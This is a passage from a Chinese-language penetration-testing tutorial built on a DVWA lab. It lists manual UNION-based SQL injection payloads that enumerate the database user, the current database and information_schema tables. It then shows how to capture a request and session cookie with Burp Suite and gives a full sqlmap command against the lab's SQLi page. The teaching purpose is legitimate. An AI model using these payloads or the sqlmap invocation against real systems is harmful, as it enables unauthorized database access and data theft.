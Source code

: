 *   获取用于连接 web 应用程序和数据库的帐户的用户名：`%' or 0=0 union select null, user() #`

*   获取我们从中提取数据的当前数据库：`%' or 0=0 union select null, database() #`
*   显示信息模式表：`information_schema`表是存储所有其他数据库信息的数据库；`%' and 1=0 union select null, table_name from information_schema.tables #`
*   显示数据库表：使用上一次查询的数据，我们可以找到该表是什么：`%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`

# 自动 SQL 注入

现在，我们了解 SQL 注入的样子，让我们来看看一些可以使这个过程自动化的工具。

# sqlmap

sqlmap 是 Kali 中内置的工具，可用于识别和利用 SQLi 漏洞。在这个例子中，我们将使用 Burp Suite 来收集一些数据，这些数据需要提供给`sqlmap`才能工作。

启动 Burp Suite 并继续设置浏览器以通过其代理路由所有流量。确保“拦截”处于启用状态。转到 DVWA 应用程序上的 SQL 注入页面并输入用户 ID；在这种情况下，我将输入`1`。

Burp 将捕获请求。继续转发，直到请求完成。你应该在网页上看到你的结果。转到目标选项卡，选择 DVWA IP（在我的例子中为`192.168.0.19`，并使用箭头向下钻取 URL 路径`http://192.168.0.19/dvwa/vulnerabilities/sqli/`（您可以在浏览器的地址栏中确认）：

![](Images/0ec95d23-9cdb-47f4-8baa-e4461a05bc4f.jpg)

选择状态为`200`的请求（HTML 代码`200`：

![](Images/762ccbec-2e12-4090-ab03-6e4ac68f9677.jpg)

在 Request 选项卡中，我们获得了需要的信息，即 web 应用程序（referer）发送的实际请求，该请求位于第一行：`/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`中，我们获得了 PHP 会话 ID 或 Cookie：

![](Images/924facf8-48fe-429e-bb1e-7b6d6412c9d4.jpg)

有了这些数据，让我们打开一个终端并输入以下内容以获取数据库用户，就像我们在手动步骤中所做的那样：

```
sqlmap -u "http://192.168.0.19/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=fb89mhevcus9oq1a1f2s6q3ss4; security=low" -b --current-db --current-user
```

这是一条在`--cookie`处没有中断的线：

![](Images/4e54b488-4dda-4eee-b4de-1fda3b1bfddc.jpg)

*   `-u`：对于我们从 Burp 获得的目标 URL
*   `--cookie`：我们通过打嗝捕捉到的饼干信息
*   `-b`：显示数据库横幅
*   `--current-db`：获取当前数据库

*   `--current-user`：获取当前数据库的当前用户：

![](Images/3e6e8774-b7cb-4834-90c3-9e9a9d215982.jpg)

测试过程中会提示您，您可以安全地按*回车*接受默认值。只有一个提示我没有使用默认值，纯粹是为了时间：

![](Images/86a8851c-f0ba-4c31-91fc-2e219323a931.jpg)
